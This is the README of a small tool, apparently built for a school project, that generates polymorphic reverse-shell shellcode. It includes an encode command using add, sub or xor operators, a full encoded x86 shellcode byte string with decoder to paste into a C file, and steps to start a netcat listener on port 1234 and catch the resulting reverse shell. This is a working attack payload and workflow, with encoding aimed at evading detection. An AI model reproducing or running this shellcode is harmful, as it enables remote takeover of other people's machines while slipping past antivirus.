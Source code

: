 # Simple Shellcode Reverse Shell Generator with Polymorphism

This tool has been build for a school project. You can use it to generate simple shellcodes with a single modification using operators. 

In the folder `asm_codes` you can find the assembly code used to generate the base payload and the decoder. 

## Installation

```bash
pip install -r requirements.txt
```

## How to use 

First of  all you have to use `encode.py` to get your payload. You can use three operators  `add` , `sub`  or`xor` .

```bash
./encode.py -o xor -n 10
```

You should get the payload in your clipboard, otherwise there is a generated file `encoded_shellcode`. 

Replace the value of `const char code[]` in the `shellcode.c` file such as : 

```c
const char code[] = 
  "\xeb\x11\x5e\x31\xc9\xb1\x5b\x80\x74\x0e\xff\x0a\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6a\x60\x6c\x52\x60\x0b\x51\x3b\xc3\x5b\x60\x0b\x60\x08\x83\xeb\xc7\x8a\x83\xcd\x62\x75\x0b\x0b\x0b\x6c\x62\x0e\xd8\x6c\x60\x08\x83\xeb\x60\x1a\x5b\x5d\x83\xeb\xba\x6c\xb9\x09\xc7\x8a\x3b\xc3\xba\x35\x83\xf1\xc7\x8a\xba\x35\x4b\xc7\x8a\xba\x35\x4b\xc7\x8a\xba\x01\x3b\xd1\x59\x62\x25\x25\x79\x62\x62\x25\x68\x63\x64\x83\xe9\x3b\xc3\x3b\xd8\xc7\x8a\x89\xce\x3a\x6b";
```

Run a nc listener in the port `1234` :

```bash
nc -lvp 1234
```

Launch `out.sh` and you should get a reverse shell.

